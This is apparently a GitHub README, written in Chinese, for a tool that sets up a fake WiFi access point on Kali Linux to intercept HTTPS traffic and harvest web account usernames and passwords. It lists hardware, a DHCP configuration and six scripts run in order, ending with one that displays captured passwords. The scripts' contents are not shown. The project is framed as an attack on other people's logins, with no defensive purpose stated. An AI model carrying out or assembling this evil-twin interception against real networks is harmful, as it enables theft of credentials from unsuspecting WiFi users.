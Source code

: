 # fake_ap_hijack_https
搭建WiFi蜜罐进行HTTPS证书劫持获取WEB系统帐号密码

##准备
- VMware Workstation
- Kali VMware镜像
- NetGear WG111v3 USB网卡

##网卡说明
- 需要aircrack-ng兼容性良好系列网卡（具体详见http://www.aircrack-ng.org/doku.php?id=compatibility_drivers）
- 网卡连入虚拟机时，需要选择桥接模式

##系统组件准备
在Kali下需要安装isc_dhcp_server组件
```
apt-get install isc-dhcp-server
```
/etc/dhcp/dhcpd.conf内容如下：
```
authoritative;

default-lease-time 700;
max-lease-time 8000;

subnet 192.168.123.0 netmask 255.255.255.0 {
option routers 192.168.123.1;
option subnet-mask 255.255.255.0;

option domain-name-servers 192.168.123.1;

range 192.168.123.10 192.168.123.100;

}
```

## 劫持脚本说明
### 第一步：monitor模式切换与AP建立
```
./wifi_init.sh
```
### 第二步：at0接口启动与DHCP服务启动
```
./wifi_atup.sh
```
### 第三步：iptables启用NAT相关参数
```
./wifi_nat.sh
```
### 第四步：DNS代理服务启动
```
./wifi_dns.sh
```
### 第五步：SSL劫持服务启动以及与之相关iptables转发参数
```
./wifi_ssl_hijack.sh
```
### 第六步：展示帐号密码
```
./wifi_show_pass.sh
```
## 运行截图展示
<img src="https://raw.githubusercontent.com/LennyLeng/fake_ap_hijack_https/master/run_screenshot.png">
